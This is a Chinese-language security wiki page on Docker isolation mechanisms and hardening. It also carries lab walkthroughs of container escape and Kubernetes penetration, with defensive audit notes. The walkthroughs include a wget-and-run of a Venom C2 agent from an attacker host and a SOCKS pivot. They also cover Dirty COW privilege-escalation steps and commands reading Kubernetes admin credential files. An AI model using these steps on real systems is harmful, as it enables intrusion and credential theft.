

## Docker 架构与核心组件

Docker 采用 **Client/Server (C/S) 架构**。客户端通过命令行或 REST API 向守护进程发送请求，守护进程负责构建、运行和分发容器。客户端与守护进程可运行在同一主机，也可通过 Socket 或远程 API 通信。

Docker 核心组件由三大部分组成：

| 组件 | 职责 |
|------|------|
| **Docker 引擎** | 运行时服务提供者，封装 Namespace、Cgroup、Capability 等底层安全技术 |
| **Docker 容器** | 承载用户业务负载的运行实例，包含应用程序及其依赖 |
| **Docker 仓库** | 集中存储、管理镜像的注册中心，支持公有/私有仓库 |

与传统虚拟化（Hypervisor + Guest OS）相比，Docker 移除了 Hypervisor 与客户操作系统层，直接在宿主内核上通过容器引擎调度，实现秒级启动与高资源利用率，但也因共享内核而引入特有攻击面。

## 核心安全隔离机制

### Namespace 隔离

Namespace 是容器隔离的基石。启动容器时，Docker 为其创建一组独立的 Namespace，使容器内进程对宿主及其他容器的资源不可见。Linux 当前支持六种 Namespace：

| Namespace 类型 | 隔离资源范围 | 系统调用常量 |
|----------------|--------------|--------------|
| **PID** | 进程 ID 编号 | `CLONE_NEWPID` |
| **NET** | 网络设备、协议栈、端口、路由表 | `CLONE_NEWNET` |
| **MNT** | 挂载点、文件系统层级 | `CLONE_NEWNS` |
| **UTS** | 主机名与域名 | `CLONE_NEWUTS` |
| **IPC** | 进程间通信（信号量、消息队列、共享内存） | `CLONE_NEWIPC` |
| **USER** | 用户 ID 与组 ID 映射 | `CLONE_NEWUSER` |

> **注意**：User Namespace 通过 UID/GID 映射可实现“容器内 root ≠ 宿主 root”，是权限降级的关键手段。

### Cgroup 资源限制

Control Groups (Cgroup) 负责**资源审计与限制**，解决多租户场景下的资源公平分配与 DoS 防护。Cgroup 以子系统形式对资源进行管控：

- **cpu / cpuset** — CPU 时间片与核心绑定
- **memory** — 物理内存、Swap 使用上限
- **blkio** — 块设备 I/O 带宽与 IOPS
- **devices** — 设备节点访问白名单
- **pids** — 进程/线程数上限（防止 Fork 炸弹）
- **freezer** — 整组挂起/恢复

通过组合子系统，可精细划定容器资源配额，缩小“资源耗尽型”攻击面。

### Linux Capability 权限模型

传统 Linux 将特权二分为 root 与非 root，Capability 将特权拆解为 **38 个细粒度标志**，实现最小权限原则。Docker 默认采用**白名单机制**，仅授予容器必要 Capability，其余一律剥离。

#### Docker 默认开启的 Capability 列表

| Capability | 说明 |
|------------|------|
| `AUDIT_WRITE` | 向内核审计日志写入记录 |
| `CHOWN` | 任意修改文件 UID/GID |
| `DAC_OVERRIDE` | 绕过文件读写权限检查 (DAC) |
| `FOWNER` | 绕过文件所有者权限检查 |
| `FSETID` | 修改文件时保留 SUID/SGID 位 |
| `KILL` | 向非自身进程发送信号 |
| `MKNOD` | 创建特殊设备文件 `mknod()` |
| `NET_BIND_SERVICE` | 绑定 <1024 端口 |
| `NET_RAW` | 使用 RAW/PACKET 套接字 |
| `SETFCAP` | 设置文件 Capability |
| `SETGID` | 修改进程 GID |
| `SETPCAP` | 转移/删除其他进程 Capability |
| `SETUID` | 修改进程 UID |
| `SYS_CHROOT` | 使用 `chroot()` 与 `setns()` 切换挂载 NS |

> **运行时调整**：`docker run --cap-add=SYS_ADMIN --cap-drop=NET_RAW` 可动态增减 Capability。

### 其他主流加固方案

Docker 仅默认启用 Capability，生产环境建议叠加以下 **强制访问控制 (MAC)** 体系：

| 方案 | 特点 | 典型场景 |
|------|------|----------|
| **AppArmor** | 基于路径的配置文件，上手易，Ubuntu 默认集成 | 限制容器文件读写、网络访问、能力调用 |
| **SELinux** | 基于标签的强制访问控制，策略更细致，Red Hat/CentOS 默认 | 多级安全 (MLS)、多类别安全 (MCS) 场景 |
| **Seccomp** | 系统调用过滤白名单，默认阻塞 `keyctl`、`bpf` 等高危调用 | 防御内核漏洞利用、容器逃逸 |
| **TOMOYO / GRSEC** | 学习模式自动生成策略 / 内核级加固补丁集 | 高安全合规环境 |

> **最佳实践**：`--security-opt apparmor=docker-default --security-opt seccomp=default.json` 叠加使用，实现纵深防御。

## 容器漏洞报告总结

笔者整理了 **2017–2020 年** 与容器相关的 CVE 漏洞报告，汇总地址：  
🔗 <https://github.com/XiaoXiaoGuaiXiaShi/Container-security-papers.git>  

后续分析将以其中典型 CVE 为例，深入剖析容器逃逸、提权及攻击面利用链。

## 扩展阅读：2019-12-16 Docker 容器安全实战系列

以下三篇文章收录于 [[daily-security-digest-20191216]] 每日安全看点，从**攻击与审计实战**视角深入剖析 Docker 容器安全，与本页面的基础机制梳理互为补充，建议配合阅读。

### Docker 容器安全性分析
- **来源**：FreeBuf
- **链接**：<https://www.freebuf.com/articles/system/221319.html>
- **核心看点**：
  - 系统性梳理容器安全威胁模型（镜像、运行时、编排、网络、宿主内核五大攻击面）
  - 深度解析 Namespace 逃逸、Cgroup 逃逸、 Capability 滥用、内核漏洞利用四大逃逸路径
  - 实战演示脏牛、waitid、shocker 等经典内核提权漏洞在容器环境下的利用条件与限制
  - 提供基于 AppArmor/SELinux/Seccomp 的纵深加固配置清单

### 攻击和审计 Docker 容器（01）
- **来源**：微信公众号（安全团队专栏）
- **链接**：<https://mp.weixin.qq.com/s/_9vykBJfKA1K6J-ducLKcA>
- **核心看点**：
  - **镜像层审计**：恶意镜像植入、基础镜像篡改、构建时注入（`RUN curl ... | sh` 等供应链攻击）
  - **运行时配置审计**：`--privileged`、`--cap-add=SYS_ADMIN`、宿主挂载（`/var/run/docker.sock`、 `/proc`、 `/sys`）等高危参数检测脚本
  - **网络攻击面**：容器间横向访问、桥接网络嗅探、暴露管理端口（2375/2376）未授权访问
  - 附赠自动化审计工具链（Docker Bench for Security、Clair、Anchore）对比评测

### 攻击和审计 Docker 容器（02）
- **来源**：微信公众号（安全团队专栏）
- **链接**：<https://mp.weixin.qq.com/s/UjSGAUIy1KIXa-hDggaLLw>
- **核心看点**：
  - **容器逃逸实战复现**：
    - `release_agent` + `cgroup` v1 逃逸（写宿主文件系统）
    - `CAP_SYS_ADMIN` + `mount` 挂载宿主根目录
    - `docker.sock` 挂载导致的非根用户提权
    - 内核漏洞（CVE-2019-5736 runc 逃逸、CVE-2020-15257 containerd-shim 逃逸）复现步骤
  - **取证与溯源**：容器日志审计（`docker logs`、`journald`、Falco 运行时监控）、文件系统层差异分析（`docker diff`）、网络流量镜像
  - **红蓝对抗视角**：攻击者视角的“最小权限突破路径”、防御者视角的“检测规则与蜜罐容器部署”

> **阅读建议**：先阅读本页面建立 **Namespace/Cgroup/Capability/MAC** 的底层机制心智模型，再结合上述三篇文章的实战案例，可快速形成“机制→攻击面→利用链→加固/检测”的完整攻防闭环认知。

## 容器逃逸与攻击审计实战案例：VulnHub Social Network 靶机复现

本节基于《Vulnhub靶机 - SOCIAL NETWORK实践》（来源：无名安全团队微信公众号）实战复现，展示从**容器环境识别**、**内网网段发现**、**横向移动**到**利用 C2 框架打通容器至宿主机/内网其他容器代理通道**的完整攻击链，为「攻击审计」视角提供具体战术参考。

### 场景拓扑
- **渗透主机**：192.168.0.114 (Kali)
- **宿主机/网关**：192.168.0.113 (Ubuntu) ⇄ 172.17.0.1 (Docker 网桥)
- **容器 A (Web)**：172.17.0.3 — 暴露 5000 端口映射至宿主 5000，运行 Python Web 服务
- **容器 B (DB)**：172.17.0.2 — 运行 Elasticsearch 9200 端口，存储凭据文件

> 该拓扑体现典型 **「单宿主多容器、桥接网络、管理端口未对外暴露」** 的 Docker 部署模式，攻击面集中在容器间网络可达性与配置不当。

### 容器环境识别（指纹采集）

攻击者在拿到容器 A 的低权限 Shell 后，通过以下三大标志快速确认身处 Docker 容器：

| 检测手段 | 命令/路径 | 判断依据 |
|----------|-----------|----------|
| **Dockerfile 残留** | `cat Dockerfile` | 构建时未清理，直接泄露基础镜像、依赖、启动命令 |
| **/.dockerenv 标记文件** | `ls /.dockerenv` | Docker 运行时自动创建，存在即容器 |
| **/proc/1/cgroup 控制组信息** | `cat /proc/1/cgroup` | PID 1 进程的 cgroup 路径包含 `docker` 字样（如 `/docker/xxxx`） |

> **审计启示**：镜像构建阶段应 `COPY --chown=...` 并 `RUN rm -f Dockerfile`；运行时可通过 `--security-opt="apparmor=..."` 限制对 `/.dockerenv`、`/proc/*/cgroup` 的读取。

### 内网网段发现与横向扫描

确认容器内网段为 `172.17.0.0/16` 后，攻击者使用 Shell 内置循环进行存活探测：

```bash
for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done
```

发现三台存活主机：
- `172.17.0.1` — Docker 网桥网关（即宿主机内网接口）
- `172.17.0.2` — 容器 B (Elasticsearch)
- `172.17.0.3` — 当前容器 A

随后通过 **内网代理** 对 `.1` 与 `.2` 进行端口/服务枚举（见下节）。

> **审计启示**：
> - 启用 `--icc=false` 禁用容器间通信，或使用用户自定义网络 + `--internal` 隔离敏感容器。
> - 宿主机 `docker0` 桥接接口默认允许容器访问宿主服务，建议 `iptables -I DOCKER-USER -s 172.17.0.0/16 -d 172.17.0.1 -j DROP`。

### C2 框架 (Venom) 建立容器→宿主机/内网代理通道

由于 Kali 无法直连 `172.17.0.0/16`，攻击者在容器 A 落地 **Venom Agent**，反连 Kali 监听的 **Venom Admin (7777)**，再在 Admin 侧开启 **SOCKS5 代理 (1080)**，配合 `proxychains` 使 Kali 全工具链获得内网访问能力。

| 角色 | 组件 | 监听/连接 | 关键命令 |
|------|------|-----------|----------|
| **攻击者** | `admin_linux_x64` | `-lport 7777` | `./admin_linux_x64 -lport 7777` |
| **攻击者** | `python3 -m http.server 81` | 传递 Agent | `python3 -m http.server 81` |
| **受害容器 A** | `agent_linux_x64` | `-rhost 192.168.0.114 -rport 7777` | `wget http://192.168.0.114:81/agent_linux_x64 && chmod +x agent_linux_x64 && ./agent_linux_x64 -rhost 192.168.0.114 -rport 7777` |
| **攻击者** | Venom Admin 控制台 | `socks 1080` | `goto 1` → `socks 1080` |
| **攻击者** | `proxychains` | `/etc/proxychains4.conf` → `socks5 127.0.0.1 1080` | `proxychains nmap -Pn -sT 172.17.0.2` |

**代理链路**：
```
Kali (工具) → proxychains (127.0.0.1:1080) → Venom Admin (SOCKS5) → Venom Agent (容器 A) → 容器内网 (172.17.0.0/16)
```

> **审计启示**：
> - 容器出站流量应受 eBPF/Cilium/Calico 策略限制，禁止主动反连外部 C2。
> - 运行时安全工具（Falco、Tracee）可检测 `execve` 落地可执行文件、异常网络连接（如反向 Shell、SOCKS 代理建立）。
> - 审计 `docker exec`、`docker cp` 等管理操作，防止攻击者通过合法管道植入 Agent。

### 内网横向移动：容器 B (Elasticsearch) 利用与凭据窃取

通过代理对 `172.17.0.2:9200` 进行服务识别，发现 **Elasticsearch 旧版本**（存在 RCE），利用公开 Exploit (EDB-36337) 获取容器 B Root Shell，进而读取 `passwords` 文件（MD5 哈希），破解后尝试 `su`/`sudo` 横向复用凭据。

> **审计启示**：
> - 敏感数据（凭据、密钥）严禁明文/弱哈希存储于容器文件系统；应使用 **Docker Secrets / Vault / KMS** 注入。
> - 容器间最小权限网络策略：Web 容器仅需访问 DB 容器特定端口，禁止任意端口探测。

### 宿主机提权：内核漏洞利用 (Dirty COW / CVE-2016-5195 等)

容器 B 为 Ubuntu 3.13.0 内核，攻击者下载本地编译好的 `37292.c` (Dirty COW 变种) 及 `ofs-lib.so`，在 `/tmp` 执行提权，获取宿主机 Root。

> **审计启示**：
> - 宿主机内核必须及时打补丁；生产环境建议启用 **Kernel Live Patching** (Canonical Livepatch, KernelCare)。
> - 容器以非 root 运行、启用 `no-new-privileges`、Seccomp 禁止 `ptrace`/`process_vm_writev` 等提权关键系统调用，可显著提高利用门槛。

### 痕迹隐藏与取证对抗

攻击全程在 `/tmp` 操作，利用 Linux `tmpwatch`/`systemd-tmpfiles` 定期清理特性隐藏工具与日志。

> **审计启示**：
> - 开启 **审计审计框架** 将关键目录 (`/tmp`, `/var/tmp`, `/dev/shm`) 文件创建/执行事件实时推送 SIEM。
> - 容器镜像构建时安装 `auditd`/`sysmon` 等 Agent，或在宿主机部署 **Falco / Tracee / Tetragon** 进行运行时行为基线偏离告警。

---

## Kubernetes 集群渗透测试：从容器逃逸到集群凭据窃取与 Master 节点隔离机制

本节基于微信公众号文章《靶场测试之k8s集群》实战复现，展示从 **Web Getshell → 宿主机提权 (Dirty COW) → 窃取 Kubernetes 管理员凭据 → kubectl 集群探索 → Master 节点工作负载隔离机制验证** 的完整攻击链，延伸容器安全视角至编排层面。

### 攻击链全景



### 阶段一：Web Getshell 与容器内立足点

1. **弱口令登录后台**：`admin/password`
2. **文件上传绕过**：上传 PHP/Webshell 文件，获取返回路径
3. **冰蝎/蚁剑连接**：建立交互式 Webshell 会话
4. **环境确认**：命令受限（`ls`、`cat` 可用，`wget`、`curl`、`python` 等受限），确认身处容器化环境

> **关联技术**：[[php-webshell-fundamentals-chopper-analysis]]、[[php-webshell-obfuscation-av-evasion]]、[[xd-security-waf-bypass-techniques-day46-49]]

### 阶段二：Dirty COW (CVE-2016-5195) 宿主机提权

**漏洞原理**：Linux 内核 `>= 2.6.22` 至 2016-10-18 修复前，写时复制 (COW) 机制存在竞争条件，非特权进程可写入只读内存映射（如 `/etc/passwd`、`/etc/shadow`、`/usr/bin/passwd`）。

**实战利用流程**：
1. 在容器内下载/上传 Dirty COW Exp（如 `37292.c`、`dirtyc0w.c`、`pokecow.c`）
2. 编译：`gcc -pthread dirty.c -o dirty -lcrypt`（容器需安装 gcc，或上传预编译二进制）
3. 执行提权：`./dirty` → 修改 `/etc/passwd` 添加 root 权限用户，或直接提升当前进程权限
4. 获取宿主机 Root Shell

> **关联页面**：
> - [[vulnhub-doubletrouble-writeup]] — 完整复现 Shellshock + Dirty COW 提权链
> - [[xd-security-privilege-escalation-notes-day58-64]] — Dirty COW 在 Kubernetes 容器环境中的实战利用细节与编译执行流程
> - [[kubernetes-penetration-testing]] — 记录 Kubernetes 集群渗透测试全流程，含 Dirty COW 提权与凭据窃取

**容器环境下的利用约束**：
- 需容器具备 `CAP_SYS_PTRACE` 或 `--cap-add=SYS_PTRACE`（默认未授予）
- Seccomp 默认配置未阻塞 `ptrace`/`process_vm_writev`，但加固配置可拦截
- `no-new-privileges=true` 可阻断 SUID 提权路径，但 Dirty COW 属于内核漏洞利用，不依赖 SUID，**需内核补丁修复**

### 阶段三：窃取 Kubernetes 管理员凭据

拿到宿主机 Root 后，直接读取集群管理员凭据文件：

```bash
# 典型凭据存储路径
cat /etc/kubernetes/admin.conf
cat /root/.kube/config
cat /var/lib/kubelet/kubeconfig
```

**凭据内容结构**：
```yaml
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority-data: <base64_ca_cert>
    server: https://<master-ip>:6443
  name: kubernetes
users:
- user:
    client-certificate-data: <base64_client_cert>
    client-key-data: <base64_client_key>
  name: kubernetes-admin
contexts:
- context:
    cluster: kubernetes
    user: kubernetes-admin
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
```

**凭据威力**：持有 `kubernetes-admin` 证书即拥有 **集群最高权限 (system:masters 组)**，可执行任意 `kubectl` 操作：创建/删除 Pod、读取 Secret、绑定 RoleBinding、部署 DaemonSet 等。

> **关联页面**：
> - [[kubernetes-penetration-testing]] — 详细记录凭据窃取、kubectl 探索、集群横向移动全流程
> - [[internal-network-pivoting-techniques]] — 容器/集群环境下的内网穿透与横向移动技术体系（Venom、Frp、SOCKS 代理、Cobalt Strike SMB Beacon 等）

### 阶段四：kubectl 集群探索与资源枚举

将窃取的 `admin.conf` 保存为本地 `~/.kube/config` 或指定 `--kubeconfig`，开始集群侦察：

| 探索目标 | 命令 | 关键信息 |
|----------|------|----------|
| **节点列表** | `kubectl get nodes -o wide` | Node 名称、角色、版本、内网 IP、操作系统、容器运行时 |
| **所有命名空间 Pod** | `kubectl get pods --all-namespaces -o wide` | Pod IP、所在 Node、镜像、状态、命名空间 |
| **敏感资源** | `kubectl get secrets,configmaps --all-namespaces` | ServiceAccount Token、数据库密码、TLS 证书、云厂商凭据 |
| **权限体系** | `kubectl get rolebindings,clusterrolebindings --all-namespaces` | RBAC 绑定关系、特权账号识别 |
| **工作负载** | `kubectl get deployments,daemonsets,statefulsets --all-namespaces` | 业务应用分布、副本数、镜像版本 |

**实战输出示例**：
```
NAME           STATUS   ROLES           AGE   VERSION   INTERNAL-IP     OS-IMAGE             KERNEL-VERSION      CONTAINER-RUNTIME
master-node    Ready    control-plane   30d   v1.24.0   192.168.0.113   Ubuntu 20.04.5 LTS   5.4.0-135-generic   docker://20.10.17
worker-node-1  Ready    <none>          30d   v1.24.0   192.168.0.115   Ubuntu 20.04.5 LTS   5.4.0-135-generic   docker://20.10.17
```

> **关联技术**：[[internal-network-pivoting-techniques]] 中的 `kubectl` 代理隧道技术（`kubectl port-forward`、`kubectl proxy`、`kubectl exec` 反弹 Shell）

### 阶段五：Master 节点工作负载隔离机制验证

**核心发现**：尝试在 Master 节点创建 Pod 失败，提示 `0/1 nodes are available: 1 node(s) had taints that the pod didn't tolerate.`

**机制原理**：Kubernetes 默认给 Master 节点（控制平面节点）打上 **污点**：

```bash
kubectl describe node master-node | grep Taints
# 输出：
# Taints: node-role.kubernetes.io/control-plane:NoSchedule
#         node-role.kubernetes.io/master:NoSchedule (旧版本兼容)
```

**调度器行为**：
- `NoSchedule`：新 Pod 不会被调度到该节点，**除非 Pod 显式容忍**
- `PreferNoSchedule`：尽量不调度，资源紧张时可调度
- `NoExecute`：现有 Pod 也会被驱逐（除非容忍）

**验证测试**：
```yaml
# test-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: test-master-pod
spec:
  tolerations:
  - key: "node-role.kubernetes.io/control-plane"
    operator: "Exists"
    effect: "NoSchedule"
  containers:
  - name: nginx
    image: nginx:alpine
```
```bash
kubectl apply -f test-pod.yaml
# 结果：Pod 成功调度至 Master 节点
kubectl get pod test-master-pod -o wide
# NAME             READY   STATUS    RESTARTS   AGE   IP           NODE
# test-master-pod  1/1     Running   0          10s   10.244.0.5   master-node
```

**攻防启示**：
| 视角 | 启示 |
|------|------|
| **攻击者** | 拿到 `kubernetes-admin` 后，可通过添加 `tolerations` 强制在 Master 运行 Pod，进而：<br>1. 读取控制平面证书（`/etc/kubernetes/pki/`）<br>2. 访问 etcd 数据（通过 sidecar 或 hostPath 挂载）<br>3. 部署恶意 DaemonSet 持久化控制全集群 |
| **防御者** | 1. **严守凭据**：`admin.conf` 仅限离线备份、审计访问<br>2. **RBAC 最小权限**：避免直接分发 `cluster-admin`，使用 `Role`/`ClusterRole` 细粒度授权<br>3. **Master 隔离加固**：<br>   - 保持 `NoSchedule` 污点，禁止业务负载<br>   - 启用 `PodSecurityPolicy`/`Pod Security Admission` 限制 `hostPath`、`hostNetwork`、`privileged` 等高危字段<br>   - 审计 `tolerations` 使用情况，告警异常调度<br>4. **运行时保护**：Falco/Tracee 监控 `kubectl exec`、`kubectl apply` 含 `tolerations` 的可疑操作 |

> **关联页面**：
> - [[kubernetes-penetration-testing]] — Master 节点隔离机制与攻防延伸的完整记录
> - [[process-injection-tampering-techniques]] — 容器逃逸后的进程注入与内存篡改技术对比
> - [[memory-scanning-tools-evasion-techniques]] — 运行时内存扫描对抗与 UDRL 规避技术

---

## 关联页面

- [[daily-security-digest-20191216]] — 2019-12-16 每日安全看点原始归档，含本节引用的三篇 Docker 文章及其他安全资讯
- [[cve-digest-20210420]] — 2021-04-20 漏洞聚合中包含容器安全相关 CVE 补充
- [[frp内网渗透应用]] — 容器环境下内网穿透与横向移动的实战技术参考
- [[kubernetes-penetration-testing]] — Kubernetes 集群渗透测试全流程详细记录
- [[vulnhub-doubletrouble-writeup]] — Shellshock + Dirty COW 提权链完整复现
- [[xd-security-privilege-escalation-notes-day58-64]] — Dirty COW 在 Kubernetes 容器环境中的实战利用细节
- [[internal-network-pivoting-techniques]] — 内网穿透/横向移动核心技术体系（Venom、Frp、SOCKS 代理、Cobalt Strike 等）
- [[process-injection-tampering-techniques]] — 进程镂空/篡改技术原理对比与 Sysmon 检测规避
- [[memory-scanning-tools-evasion-techniques]] — 内存扫描工具检测原理与 UDRL 规避实现对抗效果

## 来源

- [0th3rs安全团队-201911-202204_113](../sources/0th3rs安全团队-201911-202204_113.md)
- 无名安全团队微信公众号：《Vulnhub靶机 - SOCIAL NETWORK实践》
- [0x00实验室-202108-202304_066](../sources/0x00实验室-202108-202304_066.md)
- 微信公众号文章：《靶场测试之k8s集群》
- [0x6270安全团队-202203-202304_21](../sources/0x6270安全团队-202203-202304_21.md)
